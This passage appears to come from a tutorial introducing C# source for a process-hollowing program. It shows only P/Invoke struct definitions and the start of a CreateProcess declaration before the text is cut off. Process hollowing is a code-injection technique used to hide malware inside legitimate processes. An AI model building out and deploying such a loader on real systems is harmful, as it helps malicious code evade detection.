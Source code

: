 

It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.

```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollow
{
    class Program
    {
        // http://www.pinvoke.net/default.aspx/Structures/SECURITY_ATTRIBUTES.html
        [StructLayout(LayoutKind.Sequential)]
        public struct SECURITY_ATTRIBUTES
        {
            public int nLength;
            public IntPtr lpSecurityDescriptor;
            public int bInheritHandle;
        }

        // http://www.pinvoke.net/default.aspx/Structures/STARTUPINFO.html
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        // http://www.pinvoke.net/default.aspx/Structures/PROCESS_INFORMATION.html
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        // http://www.pinvoke.net/default.aspx/kernel32/CreateProcess.html
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern bool CreateProcess(
            string lpApplicationName,
            string lpCommandLine,
            ref SECURITY_ATTRIBUTES lpProcessAttributes,
            ref SECURITY_ATTRIBUTES lpThreadAttributes,
            bool bInheritHandles,
```